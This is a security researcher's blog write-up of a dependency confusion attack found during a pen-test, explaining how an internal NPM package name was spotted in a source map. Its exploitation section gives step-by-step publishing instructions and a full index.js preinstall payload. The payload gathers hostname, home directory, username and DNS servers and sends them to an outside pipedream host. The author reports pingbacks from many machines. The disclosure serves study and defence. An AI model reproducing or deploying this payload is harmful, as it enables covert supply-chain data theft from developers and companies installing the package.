 ```yaml
---
title: "Dependency Confusion Attack: A Route to RCE"
date: 2023-08-31 14:00:00 +0900
categories: [web]
tags: [web, rce]
comments: false
---
```



Hello, amazing hackers! Today, I'm explaining one of my recent findings: the dependency confusion attack and how it can lead to remote code execution. This vulnerability was discovered during a private pen-test engagement.

---

### What is Dependency Confusion?

* A Dependency Confusion attack or supply chain substitution attack occurs when a software installer script is tricked into pulling a malicious code file from a public repository (e.g. NPM, PIP, RUBYGEMS, MVN etc.) instead of the intended file of the same name from an internal repository. The attacker can upload a package with a higher version number to the public repository.

* In this writeup, we are focusing on the **NPM** package dependency. The Dependency confusion vulnerability was discovered by [Alex Brisan](https://twitter.com/alxbrsn) and it is explained very in-depth in his [writeup](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610).

### Discovery

* The primary use case of the application was to analyze financial data submitted by users. During recon, I always prefer to manually review JavaScript files. While going through the HTTP requests related to JS files in Burp Suite, I observed an **app.randomnumbers.js.map** (source map) file.

* Generally, source map files are used for debugging purposes by developers. It is mapping between minified JS files and their original source JS files. I started reviewing the JS source map file and discovered some Node.js packages by searching for keywords such as `import`, `require`, and `node_modules`.

```javascript
//app.randomnumber.js.map
import {
    NameSpaces
}
from '../constants/namespaces';
import store from '../redux-store/store';
const { Trackevaluator } = require('ORGNAME-trackevaluator'); // Here ORGNAME indicates company name
const Context = require('./context').Context;
const ReferralContext = require('./referral.context').ReferralContext;
const evaluate = new Trackevaluator();
const camelize = (obj) => _.transform(obj, (acc, value, key, target) => {
    const camelKey = _.isArray(target) ? key : _.camelCase(key);
     acc[camelKey] = _.isObject(value) ? camelize(value) : value;
});
```
* During the analysis of the file, a package named `ORGNAME-trackevaluator` was found, as shown in the code snippet above. While searching this package on the [npmjs.com](https://www.npmjs.com/) gave 0 results, indicating a potential vulnerability to a dependency confusion attack.

![nopackagenpm](/assets/img/NPM2.png)
_package not found_

> NPM packages can also be found in the **package.json** and **package-lock.json** files. 
{: .prompt-tip }
* Instead of manually checking each package, we can use the tool called [confused](https://github.com/visma-prodsec/confused) to identify packages that are not hosted on public repositories.


### Exploitation

1. Create a package using `npm init` command. Make sure to provide higher version number during creation process of the package. 
2. In the **package.json** file, add the command `"preinstall" : "node index.js"` under `"scripts"` parameter as shown in below snippet.

    ![package.json_codesnippet](/assets/img/NPM1.png)
    _package.json file_

3. Create **index.js** file with mentioned below code. Make sure to change the hostname with your burpcollaborator or pipedream domain in the code.

```javascript
//index.js
//author:- whitehacker003@protonmail.com
const os = require("os");
const dns = require("dns");
const querystring = require("querystring");
const https = require("https");
const packageJSON = require("./package.json");
const package = packageJSON.name;

const trackingData = JSON.stringify({
    p: package,
    c: __dirname,
    hd: os.homedir(),
    hn: os.hostname(),
    un: os.userInfo().username,
    dns: dns.getServers(),
    r: packageJSON ? packageJSON.___resolved : undefined,
    v: packageJSON.version,
    pjson: packageJSON,
});

var postData = querystring.stringify({
    msg: trackingData,
});

var options = {
    hostname: "eoty85f2nvs15dudw.m.pipedream.net", //replace burpcollaborator.net with Interactsh or pipedream
    port: 443,
    path: "/",
    method: "POST",
    headers: {
        "Content-Type": "application/x-www-form-urlencoded",
        "Content-Length": postData.length,
    },
};

var req = https.request(options, (res) => {
    res.on("data", (d) => {
        process.stdout.write(d);
    });    
});

req.on("error", (e) => {
    // console.error(e);
});

req.write(postData);
req.end();
```

{:start="4"}
4. Publish the package using `npm publish` command. Verify the published package on the npm public repository.

    ![npm1](/assets/img/NPM3.png)
    _package is hosted on the npm website_

5. The preinstall script will execute `node index.js` command. Once package is installed on the system.

* After sometime of uploading the package, I received pingbacks containing the **hostname**, **directory**, **IP address**, and **username** from many systems on my server. This was fixed quickly by the developers, once it was reported.

![npmpingback](/assets/img/NPM4.png)
_remote code execution_


### Impact

* A Dependency Confusion attack, whether opportunistic or targeted, can result in widespread infections among a vendor's customers. This can empower attackers to execute unauthorized access, steal data, deploy ransomware which disrupt operations.

### References

* [Dependency Confusion: How I Hacked Into Apple, Microsoft and Dozens of Other Companies](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610)

* [Dependency Confusion](https://dhiyaneshgeek.github.io/web/security/2021/09/04/dependency-confusion/)

* [Dependency Confusion Attack – What, Why, and How?](https://redhuntlabs.com/blog/dependency-confusion-attack-what-why-and-how/)


